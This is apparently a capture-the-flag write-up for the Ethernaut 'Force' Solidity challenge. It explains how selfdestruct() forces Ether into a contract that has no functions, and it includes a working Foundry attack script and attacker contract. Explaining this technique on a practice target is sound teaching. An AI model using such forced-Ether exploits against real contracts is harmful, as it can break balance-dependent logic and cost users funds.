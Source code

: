 # Force   
Our mission in this challenge is to increase the contract's balance to be greater than 0.
However, when we look at the code, we notice something unusual:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
This contract is completely empty—it has no functions or logic to receive funds. So, how can we possibly deposit Ether into it? 🤔🤔

The key to solving this challenge lies in understanding the deprecated [`selfdestruct()`](https://www.cyfrin.io/glossary/self-destruct-hack-solidity-code-example) function. This function allows a contract to destroy itself and send its remaining Ether to a specified address. Even if the target contract has no receive() or fallback() functions, it will still receive the Ether.

To exploit this, we need to create a contract that implements selfdestruct() and set the target contract's address as the recipient. This way, we can force the target contract to accept our Ether.

Here’s how I automated this process using a script: 
```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.20;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
	Selfdestroying selfdestroying;

	function run() public {
	vm.startBroadcast();
	selfdestroying = new Selfdestroying{value: 0.001 ether}(/* Your instance address*/);
	selfdestroying.attack();
	vm.stopBroadcast();
}
}

contract Selfdestroying {
	address victim;

	constructor(address _victim) payable {
	victim = _victim;
}
	function attack() public {
	selfdestruct(payable(victim));
}
}

```
